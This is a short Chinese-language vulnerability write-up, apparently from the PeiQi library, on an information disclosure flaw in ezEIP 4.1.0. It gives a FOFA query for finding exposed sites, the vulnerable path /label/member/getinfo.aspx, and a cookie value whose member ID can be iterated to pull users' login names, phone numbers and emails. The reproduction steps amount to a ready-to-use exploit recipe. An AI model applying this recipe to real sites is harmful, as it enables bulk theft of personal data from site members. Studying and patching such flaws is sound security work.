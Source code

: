 ```yaml
---
title: ezEIP 4.1.0 信息泄露漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - CMS漏洞
 - ezEIP
---
```


# ezEIP 4.1.0 信息泄露漏洞

## 漏洞描述

ezEIP 4.1.0 存在信息泄露漏洞，通过遍历Cookie中的参数值获取敏感信息

## 漏洞影响

> [!NOTE]
>
> ezEIP 4.1.0 

## FOFA

> [!NOTE]
>
> "ezEIP"

## 漏洞复现

漏洞Url为

```
/label/member/getinfo.aspx
```

访问时添加Cookie（通过遍历获取用户的登录名电话邮箱等信息）

```
WHIR_USERINFOR=whir_mem_member_pid=1;
```

![ez-1](/img/20210924020230857887.png)